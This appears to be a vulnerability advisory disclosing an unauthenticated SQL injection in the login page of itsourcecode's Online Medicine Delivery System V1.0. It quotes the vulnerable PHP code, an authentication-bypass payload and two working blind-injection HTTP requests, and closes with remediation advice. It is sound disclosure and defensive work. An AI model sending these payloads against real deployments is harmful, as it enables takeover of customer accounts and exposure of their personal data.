

# itsourcecode Online Medicine Delivery System V1.0 SQL Injection Vulnerability via 'U_USERNAME' Parameter in '/login.php'
---

## 1. Product Information
| Field | Value |
| --- | --- |
| **Product Name** | Online Medicine Delivery System |
| **Product Link** | [https://itsourcecode.com/free-projects/php-project/complete-online-medicine-delivery-system-with-sms-notification-in-php/](https://itsourcecode.com/free-projects/php-project/complete-online-medicine-delivery-system-with-sms-notification-in-php/) |
| **Vendor** | itsourcecode |
| **Affected Version** | V1.0 |
| **Authentication Required** | No, exploitable without any authentication |


## 2. Vulnerability Type
**SQL Injection**

---

## 3. Vulnerability Description
The customer login interface `/login.php` of Online Medicine Delivery System contains an SQL injection vulnerability. The interface includes two login branches (sidebarLogin and modalLogin), both of which receive the user-submitted `U_USERNAME` parameter and directly concatenate it into an SQL query string without any filtering or parameterization, which is then passed to the `Customer::cusAuthentication()` method for execution.

An attacker can construct a malicious SQL statement in the `U_USERNAME` field (e.g., `' OR 1=1-- -`), making the WHERE condition of the authentication query always true, and using a comment delimiter to bypass password verification, thereby successfully authenticating without knowing any account credentials and obtaining a customer session. This vulnerability can be exploited without any prior authentication.

**Affected Code**:

`include/customers.php:34-36`

```php
static function cusAuthentication($email,$h_pass){
    global $mydb;
    $mydb->setQuery("SELECT * FROM  ".self::$tblname."  WHERE `CUSUNAME` = '".$email."' and `CUSPASS` = '". $h_pass ."'");
```

`login.php:12-24` (sidebarLogin branch)

```php
$email = trim($_POST['U_USERNAME']);
$upass  = trim($_POST['U_PASS']);
$h_upass = sha1($upass);
// ...
$cusres = $cus::cusAuthentication($email,$h_upass);
```

`login.php:40-51` (modalLogin branch)

```php
$email = trim($_POST['U_USERNAME']);
$upass  = trim($_POST['U_PASS']);
$h_upass = sha1($upass);
// ...
$cusres = $cus::cusAuthentication($email,$h_upass);
```

---

## 4. Impact
+ **Unauthorized Customer Account Takeover**: An attacker can log into any customer account without knowing any customer credentials, obtaining customer-level operational privileges
+ **Sensitive Data Disclosure**: Upon successful login, the system writes the customer's full information (name, username, password hash, etc.) into the session, which the attacker can access through the profile page
+ **Business Data Tampering**: After entering a customer account, the attacker can place orders, modify addresses, change passwords, and manipulate shopping carts and wishlists

---

## 5. PoC
**Boolean-based Blind Injection**:

```plain
POST /login.php HTTP/1.1
Host: onlinemedicinedeliverysystem:9715
Content-Type: application/x-www-form-urlencoded
Connection: close

sidebarLogin=1&U_USERNAME=test' AND 5075=(SELECT (CASE WHEN (5075=5075) THEN 5075 ELSE (SELECT 1041 UNION SELECT 1572) END))-- -&U_PASS=test
```

**Time-based Blind Injection**:

```plain
POST /login.php HTTP/1.1
Host: onlinemedicinedeliverysystem:9715
Content-Type: application/x-www-form-urlencoded
Connection: close

sidebarLogin=1&U_USERNAME=test' AND (SELECT 4370 FROM (SELECT(SLEEP(5)))WlQA)-- OVeG&U_PASS=test
```

sqlmap execution screenshot:



---

## 6. Remediation
1. **Use Parameterized Queries**
2. **Input Validation**: Perform whitelist validation on user input before SQL execution; the username field should be verified against allowed character formats

